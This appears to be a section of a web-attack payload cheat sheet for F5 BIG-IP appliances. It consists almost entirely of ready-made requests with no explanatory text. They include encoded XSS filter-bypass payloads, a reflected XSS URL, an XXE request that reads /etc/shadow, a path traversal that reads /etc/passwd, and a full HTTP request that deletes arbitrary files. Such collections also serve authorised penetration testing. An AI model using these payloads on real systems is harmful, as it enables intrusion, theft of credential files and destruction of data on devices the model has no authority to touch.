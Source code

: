 ## F5 BIG-IP
```javascript
// XSS Bypass
<body style="height:1000px" onwheel="[DATA]">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[DATA]">
<body style="height:1000px" onwheel="prom%25%32%33%25%32%36x70;t(1)">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="prom%25%32%33%25%32%36x70;t(1)">
<body style="height:1000px" onwheel="prom%25%32%33%25%32%36x70;t(1)">
<div contextmenu="xss">Right-Click Here<menu id="xss"onshow="prom%25%32%33%25%32%36x70;t(1)“>

// report_type XSS 
https://host/dms/policy/rep_request.php?report_type=%22%3E%3Cbody+onload=alert(%26quot%3BXSS%26quot%3B)%3E%3Cfoo+

//POST Based XXE
POST /sam/admin/vpe2/public/php/server.php HTTP/1.1
Host: bigip
Cookie: BIGIPAuthCookie=*VALID_COOKIE*
Content-Length: 143

<?xml  version="1.0" encoding='utf-8' ?>
<!DOCTYPE a [<!ENTITY e SYSTEM '/etc/shadow'> ]>
<message><dialogueType>&e;</dialogueType></message>

// Directory Traversal
// Read Arbitrary File
/tmui/Control/jspmap/tmui/system/archive/properties.jsp?&name=../../../../../etc/passwd

// Delete Arbitrary File
POST /tmui/Control/form HTTP/1.1
Host: site.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:32.0) Gecko/20100101 Firefox/32.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=6C6BADBEFB32C36CDE7A59C416659494; f5advanceddisplay=""; BIGIPAuthCookie=89C1E3BDA86BDF9E0D64AB60417979CA1D9BE1D4; BIGIPAuthUsernameCookie=admin; F5_CURRENT_PARTITION=Common; f5formpage="/tmui/system/archive/properties.jsp?&name=../../../../../etc/passwd"; f5currenttab="main"; f5mainmenuopenlist=""; f5_refreshpage=/tmui/Control/jspmap/tmui/system/archive/properties.jsp%3Fname%3D../../../../../etc/passwd
Content-Type: application/x-www-form-urlencoded

_form_holder_opener_=&handler=%2Ftmui%2Fsystem%2Farchive%2Fproperties&handler_before=%2Ftmui%2Fsystem%2Farchive%2Fproperties&showObjList=&showObjList_before=&hideObjList=&hideObjList_before=&enableObjList=&enableObjList_before=&disableObjList=&disableObjList_before=&_bufvalue=icHjvahr354NZKtgQXl5yh2b&_bufvalue_before=icHjvahr354NZKtgQXl5yh2b&_bufvalue_validation=NO_VALIDATION&com.f5.util.LinkedAdd.action_override=%2Ftmui%2Fsystem%2Farchive%2Fproperties&com.f5.util.LinkedAdd.action_override_before=%2Ftmui%2Fsystem%2Farchive%2Fproperties&linked_add_id=&linked_add_id_before=&name=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&name_before=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&form_page=%2Ftmui%2Fsystem%2Farchive%2Fproperties.jsp%3F&form_page_before=%2Ftmui%2Fsystem%2Farchive%2Fproperties.jsp%3F&download_before=Download%3A+..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&restore_before=Restore&delete=Delete&delete_before=Delete
```
